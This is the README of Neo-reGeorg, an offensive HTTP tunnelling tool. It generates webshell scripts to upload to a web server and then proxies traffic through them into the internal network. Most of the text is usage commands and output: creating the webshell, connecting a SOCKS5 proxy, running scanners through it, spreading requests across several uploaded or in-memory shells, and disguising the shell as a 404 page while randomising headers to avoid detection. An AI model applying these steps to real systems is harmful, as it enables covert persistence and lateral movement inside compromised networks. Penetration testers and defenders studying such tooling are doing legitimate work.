 Neo-reGeorg
=========

[简体中文](README.md)　｜　[English](README-en.md)

**Neo-reGeorg** is a project designed to actively restructure [reGeorg](https://github.com/sensepost/reGeorg) with the aim of:

* Improve tunnel connection security
* Improve usability and avoid feature detection
* Improve the confidentiality of transmission content
* Solve the existing problems of reGeorg and fix some small bugs



Version
----

2.5.0 - [Change Log](CHANGELOG-en.md)


Features
----

* Transfer content through out-of-order base64 encryption
* GET request response can be customized (such as masquerading 404 pages)
* HTTP Headers instructions are randomly generated to avoid feature detection
* HTTP Headers can be customized
* Custom HTTP response code
* Multiple URLs random requests
* Server-node DNS resolution
* Compatible with python2 / python3
* High compatibility of the server environment
* Refer to [pivotnacci](https://github.com/blackarrowsec/pivotnacci) to implement a single `SESSION` to create multiple TCP connections to deal with some load balancing scenarios
* Support HTTP forwarding, coping with load balancing environment


Dependencies
-----------

* [**requests**] - https://github.com/kennethreitz/requests




Basic Usage
--------------

* **Step 1.**
Set the password to generate tunnel server.(aspx|ashx|jsp|jspx|php) and upload it to the web server.
```ruby
$ python neoreg.py generate -k password

    [+] Create neoreg server files:
       => neoreg_servers/tunnel.jspx
       => neoreg_servers/tunnel_compatibility.jspx
       => neoreg_servers/tunnel.php
       => neoreg_servers/tunnel.ashx
       => neoreg_servers/tunnel.aspx
       => neoreg_servers/tunnel.jsp
       => neoreg_servers/tunnel_compatibility.jsp

```

* **Step 2.**
Use `neoreg.py` to connect to the web server and create a socks5 proxy locally.
```ruby
$ python3 neoreg.py -k password -u http://xx/tunnel.php
+------------------------------------------------------------------------+
  Log Level set to [DEBUG]
  Starting socks server [127.0.0.1:1080]
  Tunnel at:
    http://xx/tunnel.php
+------------------------------------------------------------------------+
```

   Note that if your tool, such as `nmap` does not support socks5 proxy, please use [proxychains](https://github.com/rofl0r/proxychains-ng) 




Advanced Usage
--------------

1. Support the generated server, by default directly requesting and responding to the specified page content (such as a disguised 404 page)
```ruby
$ python neoreg.py generate -k <you_password> --file 404.html
$ python neoreg.py -k <you_password> -u <server_url> --skip
```

2. For example, the server WEB needs to set the proxy to access
```ruby
$ python neoreg.py -k <you_password> -u <server_url> --proxy socks5://10.1.1.1:8080
```

3. To set `Authorization`, there are also custom `Header` or `Cookie` content.
```ruby
$ python neoreg.py -k <you_password> -u <server_url> -H 'Authorization: cm9vdDppcyB0d2VsdmU=' --cookie "key=value;key2=value2"
```

4. Need to disperse requests, upload to multiple paths, such as memory-webshell
```ruby
$ python neoreg.py -k <you_password> -u <url_1> -u <url_2> -u <url_3> ...
```

5. Turn on http forwarding to cope with load balancing
```ruby
$ python neoreg.py -k <you_password> -u <url> -r <redirect_url>
```

* For more information on performance and stability parameters, refer to -h help information
```ruby
# Generate server-side scripts
$ python neoreg.py generate -h
    usage: neoreg.py [-h] -k KEY [-o DIR] [-f FILE] [-c CODE] [--read-buff Bytes]

    Generate neoreg webshell

    optional arguments:
      -h, --help            show this help message and exit
      -k KEY, --key KEY     Specify connection key.
      -o DIR, --outdir DIR  Output directory.
      -f FILE, --file FILE  Camouflage html page file
      -c CODE, --httpcode CODE
                            Specify HTTP response code. When using -r, it is
                            recommended to <400. (default: 200)
      --read-buff Bytes     Remote read buffer. (default: 513)

# Connection server
$ python neoreg.py -h
    usage: neoreg.py [-h] -u URI [-r URL] -k KEY [-l IP] [-p PORT] [-s] [-H LINE]
                     [-c LINE] [-x LINE] [--local-dns] [--read-buff Bytes]
                     [--read-interval MS] [--max-threads N] [-v]

    Socks server for Neoreg HTTP(s) tunneller. DEBUG MODE: -k
    (debug_all|debug_base64|debug_headers_key|debug_headers_values)

    optional arguments:
      -h, --help            show this help message and exit
      -u URI, --url URI     The url containing the tunnel script
      -r URL, --redirect-url URL
                            Intranet forwarding the designated server (only
                            jsp(x))
      -k KEY, --key KEY     Specify connection key
      -l IP, --listen-on IP
                            The default listening address.(default: 127.0.0.1)
      -p PORT, --listen-port PORT
                            The default listening port.(default: 1080)
      -s, --skip            Skip usability testing
      -H LINE, --header LINE
                            Pass custom header LINE to server
      -c LINE, --cookie LINE
                            Custom init cookies
      -x LINE, --proxy LINE
                            Proto://host[:port] Use proxy on given port
      --local-dns           Use local resolution DNS
      --read-buff Bytes     Local read buffer, max data to be sent per
                            POST.(default: 2048 max: 2600)
      --read-interval MS    Read data interval in milliseconds.(default: 500)
      --max-threads N       Proxy max threads.(default: 1000)
      -v                    Increase verbosity level (use -vv or more for greater
                            effect)
```



Remind
----

* When running `neoreg.py` with high concurrency on Mac OSX, a large number of network requests will be lost. You can use `ulimit -n 2560` to modify the "maximum number of open files" of the current shell.



TODO
----

* HTTP body steganography

* Transfer Target field steganography



License
----

GPL 3.0


Stargazers over time
----

[![Stargazers over time](https://starchart.cc/L-codes/Neo-reGeorg.svg)](https://starchart.cc/L-codes/Neo-reGeorg)
